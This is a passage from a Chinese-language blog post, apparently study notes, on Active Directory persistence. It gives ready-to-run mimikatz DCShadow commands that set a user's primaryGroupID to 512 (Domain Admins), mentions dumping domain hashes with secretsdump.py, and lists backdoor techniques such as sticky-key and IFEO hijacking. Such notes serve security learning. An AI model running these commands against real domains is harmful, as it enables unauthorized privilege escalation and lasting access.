 
给hacker用户添加权限后，就可以通过hacker用户的凭据在远程主机上导出域内用户的hash值了(通过scretsdump.py)

### DCShadow

https://www.anquanke.com/post/id/96704

https://www.dcshadow.com/

DCShadow技术通过注册一个新的域控制器，利用数据复制的方法，将准备好的恶意对象注入合法的域控制器，以此来创建域后门

+ 利用mimikatz修改用户的RID

  通过修改用户的RID，将用户添加进特权组

  1.mimikatz执行以下命令

  ```shell
  mimikatz.exe "lsadump::dcshadow /object:CN=hacker,CN=Users,DC=hack,DC=com /attribute:primaryGroupID /value:512" exit
  ```

  2.开启一个新的窗口，通过mimikatz强行触发域复制,将数据推送到合法的域控制器

  ```shell 
  mimikatz.exe "lsadump::dcshadow /push" exit
  ```

  ![dcshadow](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/dcshadow.png)

推送后就能看到hacker用户的RID已经被修改为512

![hacker-RID](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/hacker-RID.png)

此外DCShadow还可以用于SID History的修改等来进行权限持久化 ，可在hacktricks上查看

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcshadow

## 总结：

大概了解了一部分内网权限持久化的知识，但都比较基础

+ 常见后门：

  ```
  影子账户，不在用户中的用户
  系统服务后门，通过系统服务的自启动
  计划任务后门，与系统服务相似，在固定时间执行
  启动项\注册表键后门，通过系统或特定用户登陆时触发的后门
  ```

+ 事件触发类的

  ```
  WMI订阅事件
  
  屏幕保护程序，手动设置屏幕保护启动程序
  
  DLL劫持，通过恶意的DLL文件创建后门
  
  辅助功能劫持,最常见的shift粘滞键
  
  IFEO镜像劫持，修改注册表debugger字段
  ```
